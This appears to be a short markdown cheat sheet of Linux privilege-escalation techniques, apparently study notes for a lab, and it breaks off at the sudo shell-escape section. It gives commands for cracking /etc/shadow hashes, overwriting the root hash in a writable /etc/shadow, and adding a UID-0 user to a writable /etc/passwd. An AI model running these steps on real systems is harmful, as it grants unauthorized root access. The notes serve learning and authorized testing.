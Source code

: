 # Linux Privilege Escalation

---

## 1. Service Exploits

*For later.*

---

## 2. Weak File Permissions - Readable `/etc/shadow`

* Crack hashes with tools like `john`, `hashcat`, etc.

---

## 3. Weak File Permissions - Writable `/etc/shadow`

```bash
mkpasswd -m sha-512 <password>
```

* Generate a password hash and write it to the `/etc/shadow` file corresponding to the root or target user.

---

## 4. Weak File Permissions - Writable `/etc/passwd`

* Generate a new password hash with a password of your choice:

```bash
openssl passwd <password>
```

* Open `/etc/passwd` file to edit.
* Replace the `x` in the root line with generated hash or create a new user:

```bash
newroot:GENERATED_HASH:0:0:root:/root:/bin/bash
```

* Now switch to newroot

```bash
su newroot
```

---

## 5. Sudo - Shell Escape Sequences

* List the programs which sudo allows your user to run:
